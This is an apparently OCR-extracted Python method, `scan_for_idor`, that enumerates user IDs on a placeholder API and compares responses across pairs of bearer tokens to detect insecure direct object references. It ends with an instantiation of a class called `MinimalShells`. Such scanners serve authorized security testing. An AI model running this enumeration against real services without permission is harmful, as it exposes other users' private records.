     def scan_for_idor(self, api_url, auth_tokens):
        """
        api_url: e.g., "https://api.target.com/users/{id}"
        auth_tokens: [{"name": "alice", "token": "..."}, ...]
        """
        findings = []
        
        # Test ID range
        for user_id in range(1, 100):
            url = api_url.format(id=user_id)
            
            # Try accessing with each token
            for token_a, token_b in product(auth_tokens, repeat=2):
                if token_a == token_b:
                    continue
                
                # Get data as user A
                resp_a = requests.get(
                    url,
                    headers={"Authorization": f"Bearer {token_a['token']}"}
                )
                
                # Try accessing as user B
                resp_b = requests.get(
                    url,
                    headers={"Authorization": f"Bearer {token_b['token']}"}
                )
                
                # If user B can see user A's data → IDOR!
                if (resp_a.status_code == 200 and 
                    resp_b.status_code == 200 and
                    resp_a.json() == resp_b.json()):
                    
                    findings.append({
                        "type": "IDOR",
                        "url": url,
                        "user_id": user_id,
                        "unauthorized_access": token_b["name"],
                        "severity": "HIGH"
                    })
        
        return findings

# USAGE
scanner = MinimalShells()
